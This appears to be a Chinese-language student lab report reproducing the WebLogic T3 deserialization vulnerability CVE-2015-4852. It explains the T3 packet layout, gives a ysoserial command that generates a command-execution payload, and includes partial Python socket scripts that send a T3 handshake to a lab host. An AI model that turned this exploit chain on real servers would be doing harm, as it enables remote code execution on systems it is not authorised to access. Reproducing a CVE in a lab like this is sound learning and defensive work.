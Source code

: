通过python的socket接口向weblogic也可以发送t3请求，对于存在t3反序列化漏洞的版本，可以这样构造恶意代码造成远程命令执行

```python
import socket
import struct
import sys

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ("192.168.0.102", 7001)
print ('connecting to ')
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
headers_bytes = headers.encode('utf-8')
print( 'sending ')
sock.sendall(headers_bytes)


data = sock.recv(1024)
print ( 'received "%s"' % data)

# the evil obj can be sent if the vulnerability exists
...
```

![image-20230714003921173](C:\Users\Jack\Documents\MyReport\week8\image-20230714003921173-16902137501053.png)



**具体攻击方式**

对t3数据包进行进一步分析

- 每个数据包里不止包含一个序列化魔术头（0xac 0xed 0x00 0x05）
- 每个序列化数据包前面都有相同的二进制串（0xfe 0x01 0x00 0x00）
- 每个数据包上面都包含了一个T3协议头，发现前面四个字节是数据包长度

![img](C:\Users\Jack\Documents\MyReport\week8\t010438efe9d5afaa18.png)

攻击思路：数据包中包含多个序列化的对象，可以尝试构造恶意对象并替换其中的一个序列化对象，然后封装到数据包中重新发送

![img](C:\Users\Jack\Documents\MyReport\week8\t01930ddfbdb4fc2f6a.png)

CVE-2015-4852漏洞复现 （t3反序列化漏洞）

```
java -jar ysoserial.jar CommonsCollections1 'touch /test.txt' > payload.bin
```

python攻击脚本

```python
import socket
import struct
import sys
from scapy.all import *

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ("192.168.0.102", 7001)
print ('connecting to ')
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
headers_bytes = headers.encode('utf-8')
print( 'sending ')
sock.sendall(headers_bytes)

```